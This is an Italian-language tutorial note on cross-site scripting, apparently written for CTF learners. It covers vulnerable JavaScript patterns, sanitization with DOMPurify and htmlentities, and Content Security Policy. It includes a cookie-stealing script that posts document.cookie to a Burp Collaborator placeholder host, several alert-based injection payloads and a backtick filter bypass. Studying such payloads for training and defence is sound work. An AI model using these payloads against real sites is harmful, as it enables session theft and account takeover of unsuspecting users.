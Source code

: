 # Cross Site Scripting

Vulnerabilità di sicurezza web che consente a un attaccante di iniettare script (solitamente JavaScript) nelle pagine web visualizzate dagli utenti. 
Questi script possono essere eseguiti nel contesto del browser dell'utente vittima, consentendo all'attaccante di rubare informazioni sensibili, assumere il controllo dell'account dell'utente ecc...

# Come evitarlo

Avviene quando l'input di un utente non viene sanificato (ad esempio attraverso [DOMPurify](https://github.com/cure53/DOMPurify) ) e viene inserito in una pagina.
L'attack surface è enorme, in quanto ogni possibile modo di ottenere l'input da un utente potrebbe risultare in un XSS, l'importante è che gli input vengano sanificati prima di essere reindirizzati

Esempi di codice vulnerabili:

```
document.write('<p>I tuoi cookie sono: ' + document.cookie + '</p>');

document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;

var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;

```
# Payload

[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

Payload di base che ruba il cookie di un utente e lo invia al tuo webhook:

```

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```
Altri payload di esempio (per far capire che ne esistono di infiniti) tramite gli eventi dei tag html:

```
${alert(1)}

onerror=alert;throw 1

'-alert(document.domain)-'
';alert(document.domain)//  per uscire da stringhe precedenti, cercate sempre di uscire dal contesto precedente
"alert(document.domain)

PS potete usare il protocollo javascript:alert(1) per eseguire XSS tramite l'url
<a href="javascript:alert('PWNED');">

```
Usiamo alert o print perchè ci permettono al volo di vedere che abbiamo una XSS. Se viene eseguita una alert allora potete eseguire quello che volete.

# Bypass
In questi casi è importante capire (sopratutto nelle CTF) che tipo di bypass bisogna effettuare, può capitare che vengano tolte le parentesi, questo non è un problema perchè si possono eseguire script con i backtick:

```
alert`1`

```
Dato un certo blocco è molto probabile che voi riusciate a trovare un metodo per rendere lo script eseguibile, basta saperlo cercare. (ATTENZIONE all'header CSP nelle richieste)

# Tipi di XSS

XSS può essere Reflected, Stored o DOM Based, in base al modo in cui viene salvato/eseguito l' XSS.
Trovi di più su PortSwigger

# Sicurezza Sanificazione

Esistono delle funzioni per sanificare l'input, le piu comuni sono : 

```
htmlentities
ENT_QUOTES

```
Ma non è detto che bastino. Visitate le best practice nella doc del vostro linguaggio/framework e testate il sito per capire se la sanificazione è stata effettuata correttamente.

# Sicurezza CSP

Il Content Security Policy è una delle misure di sicurezza che, se ben configurata, permette di evitare l'esecuzione di XSS.
Ovviamente il must rimane la sanificazione, ma potremmo usare il CSP come ulteriore misura di sicurezza.
Trovate la sua spiegazione ,ovviamente, su PortSwigger e una versione da "Developer" qui: 

[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

Attenzione alle librerie che importante, anche il CSS può portare al bypass del CSP, è facile che sia mal configurato.
